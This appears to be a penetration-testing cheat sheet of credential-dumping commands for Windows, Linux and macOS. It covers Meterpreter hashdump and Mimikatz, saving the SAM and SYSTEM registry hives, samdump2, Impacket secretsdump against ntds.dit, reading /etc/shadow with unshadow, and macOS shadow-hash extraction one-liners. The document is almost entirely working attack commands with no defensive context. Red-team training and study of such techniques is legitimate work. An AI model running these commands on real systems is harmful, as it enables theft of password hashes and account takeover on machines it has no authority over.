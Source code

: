 # Windows: 

## Meterpreter HashDump

- run post/windows/gather/hashdump

## Meterpreter Mimikatz (Post Exploitation must be executed from SYSTEM privileges)

- load mimikatz
- creds_all

DUMP LSA SECRETS
- lsadump.py sys_backup.hiv sec_backup.hiv

DUMP LOCAL PASSWORD HASHES

- pwdump.py sys_backup.hiv sec_backup.hiv

## reg.exe 

- reg save HKLM\sam sam
- reg save HKLM\system system

## samdump2

- samdump2 SYSTEM SAM > hashes.db

## Impacket Tools: 

- secretsdump.py -ntds ~/Extract/ntds.dit -system ~/Extract/SYSTEM -hashes lmhash:nthash LOCAL -outputfile ntlm-hashes

If you have the NTDS.dit file and the SYSTEM hive: 

- secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL

# Linux

Requires Root Privileges

- cat /etc/shadow

- cp /etc/passwd and shadow
- unshadow passwd shadow 

#  OSX

10.5-10.7

- dscl localhost -read /Search/Users/<username>|grep GeneratedUID|cut -c15-cat
/var/db/shadow/hash/<GUID> | cut -c169-216 > osx_hash.txt

10.8-10.12

- sudo defaults read /var/db/dslocal/nodes/Default/users/<username>.plist ShadowHashData|tr -dc ‘
0-9a-f’|xxd -p -r|plutil -convert xml1 - -o -

# Other Resources: 

- Lsassy: https://github.com/Hackndo/lsassy